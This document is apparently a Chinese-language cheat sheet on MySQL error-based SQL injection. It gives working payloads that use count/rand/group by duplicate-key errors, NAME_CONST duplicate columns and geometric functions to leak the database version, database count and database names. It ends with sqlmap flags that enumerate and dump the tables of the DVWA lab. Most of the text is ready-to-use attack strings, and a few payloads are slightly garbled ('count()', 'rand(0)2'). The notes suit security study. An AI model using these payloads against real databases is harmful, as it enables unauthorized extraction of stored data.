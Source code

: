 主键重复:实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关,常见的payload
```sql
select count(*) from test group by concat(version(),floor(rand(0)*2));
-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'
select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x;
-- ERROR 1062 (23000): Duplicate entry '5.7.171' for key '<group_key>'


--- 查询数据库的个数：
select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata
--- payload组合语句：
and (select 1 from (select count(),concat((select (select (select concat(0x7e,count(schema_name),0x7e) from information_schema.schemata)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

--- 获取数据库名字：
select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1
---payload组合语句：
and (select 1 from (select count(),concat((select (select (select concat(0x7e,schema_name,0x7e) from information_schema.schemata limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a)
```

mysql列名重复会报错
```sql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
--- ERROR 1060 (42S21): Duplicate column name '5.7.17'

select *  from(select * from test a join test b)c;
--- ERROR 1060 (42S21): Duplicate column name 'id'
select *  from(select * from test a join test b using(id))c;
--- ERROR 1060 (42S21): Duplicate column name 'name'

```
几何函数：`geometrycollection()`，`multipoint()`，`polygon()`，`multipolygon()`，`linestring()`，`multilinestring()`:
```sql

-- 5.5.47
select multipoint((select * from (select * from (select version())a)b));
ERROR 1367 (22007): Illegal non geometric '(select `b`.`version()` from ((select '5.5.47' AS `version()` from dual) `b`))' value found during parsing
-- 5.7.17
select multipoint((select * from (select * from (select version())a)b));
-- ERROR 1367 (22007): Illegal non geometric '(select `a`.`version()` from ((select version() AS `version()`) `a`))' value found during parsing
```

### sqlmap  

`-dbs -v 0  -dbs`, 根据不同的数据库管理平台探测包含的数据库名称    
`-D dvwa --tables` 根据数据库dvwa查找表名    
`-D dvwa --tables -T users --columns` 查找dvwa数据库中的users表中的字段列表    
`-D dvwa --tables -T users --columns --dump ` 字段内容  

